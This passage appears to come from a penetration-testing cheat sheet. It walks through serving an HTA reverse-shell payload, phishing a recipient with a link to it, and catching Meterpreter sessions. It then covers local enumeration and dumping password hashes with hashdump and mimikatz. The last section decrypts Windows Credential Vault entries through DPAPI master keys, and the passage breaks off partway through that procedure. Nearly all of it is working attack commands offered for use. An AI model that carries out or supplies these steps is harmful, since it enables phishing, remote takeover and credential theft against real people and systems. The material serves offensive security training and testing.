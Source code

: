 - Launch this in the folder where the payload is `python3 -m http.server 80`

### Send the phishing email

- We can now send an email with a link to our reverse shell `http://IP-OF-ATTACK-MACHINE/name-of-your-script.hta`
- When the phishing receptient will execute the file we will get a reverse shell

### Catch your shell and interact

- In your metasploit shell launch `sessions`
- We should see a new meterpreter sessions from our taget machine
- To interact with it we can do `sessions -i number-of-session`

## Local Enumeration

- Let's suppose we have a shell
- We interact with it using `sessions -i number-of-session` (type `sessions` to list the available sessions)
- `sysinfo` will give info on win version, architecture etc
- `getuid` to have current user info
- `ipconfig` to get network info
- `arp` other information about network
- `netstat -ano` to get info on listener and other
- `ps to check processes
- `run post/windows/gather/enum_services` enumerate services
- `run post/windows/gather/enum_applications` enumerate applications
- `run post/windows/gather/enum_domains` enumerate domains (works better on msf5 than 6)
- `route` check out routes

## Dump hashes with Hashcat

- We should have a session
- We can check our privileges using `run post/windows/gather/win_privs`
- We can get getsystem if not already using `getsystem` and to check it worked we can use `getuid`
- `hashdump` will dump the hashes on the machine *Note when the hash ends with `0c089c0` it usually means that the account is probably disabled`
- `load kiwi` will load mimikatz within meterpreter
- `creds_all`
- `lsa_dump_sam` will dump hashes from the sam file

## Cracking Credential Vault with mimikatz

- We should have a session (does not have to be admin, needs to be a domain user)
- We need to upload mimikatz on the target `upload /opt/Tools/mimikatz_trunk/x64/mimikatz.exe C:\\Users\\Public\\mimikatz.exe`
- `shell`
- `cd C:\Users\Public`
- `dir /a C:\users\user\appdata\local\microsoft\credentials`
- This will list the password files, we will use the smallest on which generally the one we need.
- We launch mimikatz: `mimikatz.exe`
- `vault::cred` will let us make sure that there are creds in the vault
- `dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\<CREDENTIAL-FILE-PREVIOUSLY-SELECTED>`
- We need to keep aside the guidMasterKey
- `exit` to exit mimikatz
- `dir /a C:\users\user\appdata\roaming\microsoft\protect` and now we can keep note of the sid value that shoudl look like this: `03/07/2022  10:31 AM    <DIR>          S-1-5-21-3390063331-4123551052-1719781121-1113`
- `dir /a C:\users\user\appdata\roaming\microsoft\protect\S-1-5-21-3390063331-4123551052-1719781121-1113` the file with the guid should be the same guid of the guidMasterKey
- `dpapi::masterkey /in:C:\users\user\appdata\roaming\microsoft\protect\S-1-5-21-3390063331-4123551052-1719781121-1113\09770ae7-8e52-48cd-8899-45bb271132e7 /rpc`